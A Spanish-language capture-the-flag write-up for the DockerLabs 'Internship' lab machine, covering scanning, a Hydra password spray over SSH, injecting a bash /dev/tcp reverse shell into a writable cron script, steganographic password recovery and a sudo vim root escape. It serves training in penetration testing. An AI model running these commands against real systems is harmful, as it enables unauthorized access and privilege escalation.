


**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `Gobuster` `Cryptography` `JS Deobfuscation` `Hydra` `Cron Job` `Writable File` `Steganography` `Steghide` `Sudoers`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip internship.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh internship.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-01 20:23 CET
Nmap scan report for 172.17.0.2
Host is up (0.000040s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 35:ff:c4:8b:c4:e1:46:12:43:b9:03:a9:cf:ec:f3:0a (ECDSA)
|_  256 23:ac:95:1e:be:33:9e:ed:14:f0:45:f6:27:51:ca:ba (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: GateKeeper HR | Tu Portal de Recursos Humanos
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
```

Identificamos que los puertos `22` y `80` están abiertos.

Accedemos al servicio web del puerto `80` y nos encontramos con esta página:



Inspeccionamos el código fuente y encontramos información sobre un dominio.

```
 <title>GateKeeper HR | Tu Portal de Recursos Humanos</title>
 <link rel="dns-prefetch" href="//gatekeeperhr.com" />
```

Añadimos la siguiente línea a nuestro archivo `/etc/hosts` para habilitar la resolución de nombres:

```
127.0.0.1	      localhost
127.0.1.1	      kali
172.17.0.2      gatekeeperhr.com
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Volvemos a acceder al servicio web, esta vez utilizando la URL `http://gatekeeperhr.com`.

Ahora ya podemos interactuar correctamente con la página.

## GOBUSTER

Realizamos `fuzzing` de directorios para intentar localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:

```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://gatekeeperhr.com/
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,txt,bak,sh,html,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 3971]
/about.html           (Status: 200) [Size: 3339]
/contact.html         (Status: 200) [Size: 3140]
/default              (Status: 301) [Size: 322] [--> http://gatekeeperhr.com/default/]
/spam                 (Status: 301) [Size: 319] [--> http://gatekeeperhr.com/spam/]
/css                  (Status: 301) [Size: 318] [--> http://gatekeeperhr.com/css/]
/includes             (Status: 301) [Size: 323] [--> http://gatekeeperhr.com/includes/]
/js                   (Status: 301) [Size: 317] [--> http://gatekeeperhr.com/js/]
/lab                  (Status: 301) [Size: 318] [--> http://gatekeeperhr.com/lab/]
Progress: 1543899 / 1543899 (100.00%)
===============================================================
Finished
===============================================================
```

Encontramos dos directorios que nos llaman la atención: `/spam` y `/lab`. No tenemos permisos para acceder a `/lab`, pero sí conseguimos acceder a `/spam`. Dentro vemos una página completamente en negro, pero al inspeccionar el código fuente hallamos esto:

```
<!-- Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3' -->
```

Identificamos que este texto está cifrado en `ROT13`. Tras decodificarlo obtenemos:

```
La contraseña de uno de los pasantes es 'purpl3'
```

Con esto recuperamos la contraseña de uno de los pasantes, pero aún desconocemos el nombre de usuario, por lo que debemos seguir investigando.

Regresamos a la página principal y volvemos a revisar el código en busca de más pistas. Localizamos un archivo `script.js` que se encuentra ofuscado.

Procedemos a desofuscarlo utilizando la herramienta online `deobfuscate.io`.



El script de JS nos revela dos rutas que no conocíamos anteriormente: `/lab/login.php` y `/lab/employees.php`.

Navegamos a la ruta `/lab/employees.php` y encontramos lo siguiente:


Aquí visualizamos la información de todos los empleados, incluyendo sus nombres y departamentos.

Para no hacerlo manualmente, utilizamos el comando `curl` en combinación con `jq` para filtrar y obtener por terminal únicamente los nombres de los pasantes.

```bash
curl -s "http://gatekeeperhr.com/lab/employees.php" | jq -r '.employees[] | select(.department == "Pasantia IT") | .name'
```

Info:

```
Pedro Ramirez
Valentina Gomez
```

Ahora que tenemos los nombres, generamos un diccionario `users.txt` aplicando diferentes patrones de nombres de usuario: "nombre", "nombreapellido" y "nombre.apellido".

```bash
nano users.txt
```

```
pedro
pedroramirez
pedro.ramirez
valentina
valentinagomez
valentina.gomez
```

## HYDRA

A continuación, lanzamos un ataque `Password Spraying` contra el servicio `SSH` en el puerto `22`, utilizando nuestro diccionario de usuarios y la contraseña que habíamos descubierto anteriormente: `purpl3`.

```bash
hydra -L users.txt -p purpl3 ssh://172.17.0.2 -t 64
```

Info:

```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-12-01 21:20:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: pedro   password: purpl3
```

Identificamos credenciales válidas para el usuario `pedro` : `purpl3`.

Accedemos por `SSH` utilizando estas credenciales.

```bash
ssh pedro@172.17.0.2
```

## MOVIMIENTO LATERAL

Una vez dentro, enumeramos el sistema exhaustivamente hasta que nos encontramos con lo siguiente:

```bash
ps aux
```

Info:

```
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   3932  3064 ?        Ss   20:16   0:00 /bin/bash /entrypoint.sh
root          23  0.0  0.5 201816 21816 ?        Ss   20:16   0:00 /usr/sbin/apache2 -k start
.............................................................................
valenti+     934  0.0  0.0   2584  1552 ?        Ss   20:33   0:00 /bin/sh -c sleep 30; /opt/log_cleaner.sh
valenti+     935  0.0  0.0   2584  1612 ?        Ss   20:33   0:00 /bin/sh -c sleep 45; /opt/log_cleaner.sh
valenti+     936  0.0  0.0   2492  1400 ?        S    20:33   0:00 sleep 30
valenti+     937  0.0  0.0   2584  1724 ?        Ss   20:33   0:00 /bin/sh -c sleep 15; /opt/log_cleaner.sh
valenti+     938  0.0  0.0   2492  1484 ?        S    20:33   0:00 sleep 45
valenti+     940  0.0  0.0   2492  1492 ?        S    20:33   0:00 sleep 15
pedro        947  0.0  0.1   8108  4424 pts/0    R+   20:33   0:00 ps aux
```

Observamos que el usuario valentina ejecuta el script `/opt/log_cleaner.sh` de forma periódica.

Listamos los permisos del directorio `/opt` y verificamos que tenemos permisos de escritura sobre dicho archivo.

```
total 16
drwxr-xr-x 1 root      root      4096 Feb 10  2025 .
drwxr-xr-x 1 root      root      4096 Dec  1 20:16 ..
-rwxrw-rw- 1 valentina valentina   32 Dec  1 20:31 log_cleaner.sh
```

Procedemos a modificar el script para inyectar una `Reverse Shell` y que, al ser ejecutado por `valentina`, nos devuelva una conexión.

```bash
nano log_cleaner.sh
```

Script:

```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'
```

Ponemos un `listener` con `Netcat` en nuestra máquina atacante a la espera de la conexión.

```bash
nc -nlvp 4444
```

Info:

```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 36416
bash: cannot set terminal process group (1274): Inappropriate ioctl for device
bash: no job control in this shell
valentina@0fa5cedd2199:~$
```

En cuestión de unos 5 segundos recibimos la shell interactiva como el usuario `valentina`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## ESCALADA DE PRIVILEGIOS

En el directorio `/home/valentina` localizamos una imagen llamada `profile_picture.jpeg`.

Decidimos transferir esta imagen a nuestra máquina atacante. Como no disponemos de herramientas de transferencia directa en el entorno, utilizamos `Base64` para codificar el archivo binario a texto y copiarlo directamente desde la terminal.

```bash
base64 profile_picture.jpeg
```

Info:

```
/9j/4AAQSkZJRgABAQAAAQABAAD/2wBDAAUDBAQEAwUEBAQFBQUGBwwIBwcHBw8LCwkMEQ8SEhEP
ERETFhwXExQaFRERGCEYGh0dHx8fExciJCIeJBweHx7/2wBDAQUFBQcGBw4ICA4eFBEUHh4eHh4e
Hh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh4eHh7/wAARCAGQAZADASIA
............................................................................
5zJSmSHd9sZLcknAtgDhaAHSCVQr3XnncP8ARlDjj0zRtn8/Y5mN+T8jeYMAU1jFEpIMEzzD0P7q
mqI1LWqyQEsQWuMHigB6pL5jJbmb7QAfPYuMfh60irujYwGdbQY87LjJP0pg8uUeTvgiEYJMnOZK
RjFIDOVgjCADygCN3vSA/9k=
```

Copiamos todo el output generado y lo guardamos en nuestra máquina atacante dentro de un archivo llamado `imagen.b64`.

A continuación, decodificamos el contenido para reconstruir el archivo `JPEG` original.

```bash
base64 -d imagen.b64 > imagen.jpeg
```

Visualizamos la imagen.

```bash
open imagen.jpeg
```


Troleada histórica.

Procedemos a analizarla para ver si contiene esteganografía.

```bash
steghide extract -sf imagen.jpeg
```

Info:

```
Enter passphrase: 
wrote extracted data to "secret.txt".
```

Conseguimos extraer los datos ocultos y leemos el contenido del archivo resultante `secret.txt`:

```
mag1ck
```

Intentamos autenticarnos como `root` utilizando esta contraseña, pero no obtenemos resultado.

Deducimos, entonces, que probablemente se trata de la contraseña de la propia usuario `valentina`.

Ahora que disponemos de la contraseña, enumeramos los permisos de superusuario.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for valentina on 0fa5cedd2199:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty, listpw=always

User valentina may run the following commands on 0fa5cedd2199:
    (ALL : ALL) PASSWD: ALL, NOPASSWD: /usr/bin/vim
```

Vemos que podemos ejecutar el binario `vim` con privilegios de `root` sin necesidad de contraseña. Aprovechamos esta configuración para escalar privilegios a `root` de la siguiente manera:

```bash
sudo vim -c ':!/bin/bash'
```

Info:

```
root@0fa5cedd2199:/home/valentina# whoami
root
root@0fa5cedd2199:/home/valentina#
```

Ya somos root!
